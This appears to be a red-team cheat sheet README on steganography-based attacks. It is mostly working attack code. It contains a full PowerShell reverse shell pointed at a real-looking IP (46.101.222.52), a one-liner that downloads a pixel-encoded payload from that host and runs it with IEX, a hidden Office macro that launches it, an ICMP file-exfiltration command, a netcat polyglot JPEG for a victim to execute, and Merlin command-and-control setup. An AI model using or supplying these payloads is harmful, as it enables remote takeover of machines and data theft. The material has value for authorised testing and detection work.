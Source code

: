 # Stego Red Team

## Data Exfiltration using ICMP 8

* PyExfil: https://github.com/ytisf/PyExfil

* Target: 
```
python -c 'from pyexfil.network.ICMP.icmp_exfiltration import send_file;ip_addr = "127.0.0.1";send_file(ip_addr, src_ip_addr="127.0.0.1", file_path="/home/kali/stego/PyExfil/1.txt", max_packetsize=512, SLEEP=0.1)'
```

* Server: 
```
tcpdump -A icmp -i lo
```



## Remote Access using PSImage

* PSImage: https://github.com/peewpw/Invoke-PSImage

* `echo '$client = New-Object System.Net.Sockets.TCPClient("46.101.222.52",444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' > payload.ps1`
* `Import-Module .\Invoke-PSImage.ps1`
* `Invoke-PSImage -Script .\payload.ps1 -Out .\evil.png -Image .\image.png -Web`
* `sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://46.101.222.52/evil.png"));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))`
* Create a VBS Macro: 
```
Sub RunAndGetCmd()

    strCommand = "Powershell -W Hidden -Exec Bypass -Command ""sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead('http://46.101.222.52/evil.png'));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))"""
    Set WshShell = CreateObject("WScript.Shell")
    Set WshShellExec = WshShell.Exec(strCommand)
    strOutput = WshShellExec.StdOut.ReadAll

End Sub
```
* `nc -nlvp 444`

* VirusTotal report of the artifact generated: https://www.virustotal.com/gui/file/2ee890676fdaf5daf128cd0637f2f86cbe01d8db3bef23c9ee897c841d549095/details

## Polyglot Payloads

* Powerglot: https://github.com/mindcrypt/powerglot

* **Hiding a cover-channel wiht netcat in a JPEG image**

* Attacker
```
 echo "nc 127.0.0.1 4444" > netcat.sh
 python3 powerglot.py -o netcat.sh cat.jpeg cat-netcat.jpeg
 nc -nvlp 4444
 ```

* Victim
```
chmod +x cat-netcat.jpg | ./cat-netcat.jpg
```


## Post-Exploitation over HTTP/2 C&C

* `./ merlinServer-Linux-x64 -i 46.101.222.52`
* `./ merlinAgent-Linux-x64 -url https://46.101.222.52:443`
 
 
 
## Awsome Tools & Resources

* SpookFlare: https://artofpwn.com/spookflare.html
* Packet Whisper: https://github.com/TryCatchHCF/PacketWhisper
* Merlin: https://github.com/Ne0nd0g/merlin
* Steganography Network: https://github.com/microkost/Steganography-for-IP-networks
* Mindcrypt Repo: https://github.com/mindcrypt

